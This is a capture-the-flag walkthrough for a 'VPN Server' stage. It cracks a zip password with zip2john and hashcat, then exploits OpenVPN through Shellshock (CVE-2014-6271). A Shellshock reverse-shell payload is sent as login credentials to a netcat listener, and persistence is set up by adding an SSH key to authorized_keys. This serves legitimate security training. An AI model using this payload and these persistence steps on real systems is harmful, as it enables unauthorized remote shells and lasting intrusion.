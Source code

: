 # VPN Server

1. **Resume From [Mail Server](/2_mail_server/)**
2. **Get OVPN from Mail Server: [257-2.msg](/2_mail_server/08-store0/6/msg/0/257-2.msg)**
3. **Decode Zip File from Base64: `https://gchq.github.io/CyberChef/`**
4. **Install `John The Ripper`**

5. **Generate Hash:**

    ```shell
    ~/CTF/JohnTheRipper/run/zip2john 3_vpn.zip > hashes/5-zip_hashes.txt
    ```

6. **Edit File (remove file names from hashes): [Zip Hashes](./hashes/6-zip_hashes.txt)**
7. **Run Hashcat**

    ```shell
    hashcat -m 13600 -a 3 ./hashes/6-zip_hashes.txt "?l?l?l?l?l?l?l"

    # to show Results
    hashcat -m 13600 -a 3 ./hashes/6-zip_hashes.txt "?l?l?l?l?l?l?l" --show > hashes/7-hashcat.txt
    ```

8. **Hashcat Results in [Hashcat](./hashes/07-hashcat.txt): `ehsanit`**
9. **Using ShellShock OpenVPN Exploit: [CVE-2014-6271](./34879.txt)**

10. **Extract and Edit: `09_vpn\client.ovpn`**

    ```shell
    remote 172.16.3.64 1194
    ```

11. **Make SSH key**

    ```shell
    ssh-keygen -t ed25519 -f ./id_ed25519 -N ""
    ```

12. **Start:**

    ```shell
    nc -l 0.0.0.0 9696
    ```

13. **Let's Connect:**

    ```shell
    cd 9_vpn
    openvpn client.ovpn
    ```

14. **Send Username, Password**

    ```shell
    () { :;};/bin/bash -i >& /dev/tcp/10.8.0.29/9696 0>&1 &
    ```

15. **Read Flag: `MAZAPA_1a75e527fd045659662be54a5171627f`**

16. **Persist Your Connection:**

    ```shell
    echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOCswCp0rS8p6Ost8dvKK7ZQHrrgfEYo1JM1cEroUnY4 danial@pop-os >> ~/.ssh/authorized_keys

    cat ~/.ssh/authorized_keys

    chmod 600 ~/.ssh/authorized_keys 
    ```

17. **Connect with SSH**

    ```shell
    ssh -i ./id_ed25519 -p 2200 vpn_user@172.16.3.64
    ```
